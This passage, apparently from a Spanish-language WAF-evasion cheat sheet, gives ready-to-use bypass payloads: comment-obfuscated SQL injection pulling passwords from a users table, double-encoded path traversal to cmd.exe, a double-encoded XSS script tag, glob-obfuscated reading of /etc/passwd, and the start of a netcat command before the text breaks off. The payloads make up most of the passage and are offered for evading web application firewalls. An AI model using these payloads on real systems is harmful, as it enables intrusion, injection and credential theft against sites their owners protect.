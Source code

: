 Inserte comentarios en medio de las cadenas de ataque. Por ejemplo, /*!SELECT*/ puede ser pasado por alto por el WAF pero pasado a la aplicación de destino y procesado por una base de datos mysql.

**Ejemplo en URL:**

> index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4
> 
> 
> 'union%a0select pass from users#

**Ejemplo en URL:**

> index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3

### 7. Técnica de doble codificación

Los filtros de Web Application Firewall tienden a codificar caracteres para proteger la aplicación web. Los filtros mal desarrollados (sin filtros de recursividad) se pueden omitir con doble codificación.

**Solicitud básica:**

> http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

**Ofuscar carga útil:**

> http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

**Solicitud básica:**

```bash
<script>confirm()</script>
```

**Ofuscar carga útil:**

```bash
%253Cscript%253Econfirm()%253C%252Fscript%253E
```

### 8. Técnica de ofuscación con comodines

Varias utilidades de línea de comandos utilizan patrones globales para trabajar con varios archivos. Podemos cambiarlos para ejecutar comandos del sistema.

**Solicitud básica:**

> /bin/cat /etc/passwd

**Ofuscar carga útil:**

> /???/??t /???/??ss??

**Caracteres usados:**

> / ? t s

**Solicitud básica:**

> /bin/nc 127.0.0.1 443

**Ofuscar carga útil:**
